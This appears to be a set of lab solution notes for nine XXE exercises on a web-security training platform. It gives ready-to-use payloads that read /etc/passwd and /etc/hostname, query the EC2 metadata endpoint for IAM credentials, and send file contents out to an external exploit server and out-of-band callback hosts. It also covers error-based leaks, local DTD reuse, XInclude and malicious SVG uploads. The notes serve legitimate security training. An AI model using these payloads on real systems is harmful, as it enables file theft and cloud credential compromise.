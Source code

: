 ## Lab - 1: Exploiting XXE using external entities to retrieve files (A)

```xml
POST /product/stock HTTP/1.1
...
Referer: https://0aef009d032939ebc0db06e7004100cc.web-security-academy.net/product?productId=1
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe; </productId><storeId>1</storeId></stockCheck>
```

## Lab - 2: Exploiting XXE to perform SSRF attacks (A)

- This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

- The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

```xml
POST /product/stock HTTP/1.1
...
Referer: https://0a40003e04c7970fc0d988b500d80014.web-security-academy.net/product?productId=1
...

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

will result `latest` and follow these results and find that

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Lab - 3: Blind XXE with out-of-band interaction (P)

```xml
POST /product/stock HTTP/1.1
...
Referer: https://0ab400fb043c2853c01955bb009b000d.web-security-academy.net/product?productId=1
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY xxe SYSTEM "http://rje98cecbxzy2jhcx8r0mvat5kbazz.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Lab - 4: Blind XXE with out-of-band interaction via XML parameter entities (P)

```xml
POST /product/stock HTTP/1.1
...
Referer: https://0a9e004f034227f4c0d0486f00fe007a.web-security-academy.net/product?productId=1
...

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY % xxe SYSTEM "http://i0jqlpa02tf1z8fvvua38krz2q8gw5.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

## Lab - 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD (P)

- This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, exfiltrate the contents of the /etc/hostname file.

- This end point has XXE vulns:

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- At the exploit server's body, write as an external DTD.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a84007903c25035c024105a01d000b3.web-security-academy.net/?x=%file;'> ">

```

- This payload path is at `https://exploit-0a84007903c25035c024105a01d000b3.web-security-academy.net/exploit`

- At the vulns end-point,

```
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a84007903c25035c024105a01d000b3.web-security-academy.net/exploit">
%xxe;
%eval;
%exfil;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- It calls the exploit DTD from above as `%xxe` entity.
- In exploit DTD, it calls the `%file` as /?x=%file GET request
- see in the access log of that exploit server

---

## Lab - 6: Exploiting blind XXE to retrieve data via error messages (P)

- This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

- The following end point is vulnerable.

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- In the exploit server body,

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///notexist/%file;'>">
%eval;
%exfil;
```

- At the vuln endpoint,

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a7000b403df0d96c0ab4865010b0091.web-security-academy.net/exploit">
%xxe;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

---

## Lab - 7: Exploiting XXE to retrieve data by repurposing a local DTD (E)

- This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, trigger an error message containing the contents of the /etc/passwd file. You'll need to reference an existing DTD file on the server and redefine an entity from it.
  `Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.`

- At XXE vuln end point, enter that payload.

```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///noexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```

---

## Lab - 8: Exploiting XInclude to retrieve files (P)

- This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed. Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file.

- At XXE vuln end point,

```
POST /product/stock HTTP/1.1
...

productId=1<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

---

## Lab - 9: Exploiting XXE via image file upload

- This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files. To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

- upload svg file

```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

---
